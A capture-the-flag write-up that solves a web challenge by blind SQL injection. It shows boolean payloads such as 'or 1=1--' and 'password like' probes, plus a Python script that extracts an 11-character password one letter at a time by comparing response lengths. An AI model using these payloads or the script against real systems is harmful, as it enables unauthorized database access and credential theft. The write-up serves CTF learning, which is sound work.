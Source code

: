 # Web

Challenge Name : SQL That Can't See

# Solution

Go back to My First SQL challenge website and try to enter `admin:admin`.

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610085914.png)

Then look at the view source once you submit.

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610085954.png)

There is a query from what we inputs in the view source.

```bash
SELECT email, password FROM users WHERE email = 'admin' and password = 'admin'
```

From the challenge description it say that the email should be this `godam@kuki.com` and the password consists of 11 characters with lowercases. First let us get a payload that could help us on retrieving the password character by character.

```bash
# Payload (Return True)
Email : godam@kuki.com' or 1=1-- 

# Payload (Return False)
Email : godam@kuki.com' and 2=1-- 
```

This tell us that the email is correct. So now we must have some condition to check the password.

```bash
# Payload (Return True)
Email : godam@kuki.com' and password like 'k%'--

# Payload (Return False)
Email : godam@kuki.com' and password like 'y%'--
```

We can just go on with this payload character by character but to make things faster I create this python script to retrieve the password. Use [this](https://curl.trillworks.com/) to convert curl to python

```python
import requests
import string
requests.packages.urllib3.disable_warnings()

headers = {
    'Host': 'skrctf.me',
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Te': 'trailers',
    'Connection': 'close',
}
password = ""
for ranges in range(11):
	for i in string.ascii_lowercase:
		temp = password + i
		params = (
		    ('email', "godam@kuki.com' and password like '"+temp+"%'-- "),
		    ('password', "'--"),
		)

		response = requests.get('https://skrctf.me/ports/4000/index.php', headers=headers, params=params, verify=False)
#		print(len(response.text))
		if len(response.text) > 1700:
			password += i
			break
	print("Round ["+str(ranges+1)+"]")
	print(password)

print("Flag => SKR{"+password+"}")
```

Run the script will get us the flag!

# Flag

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610102052.png)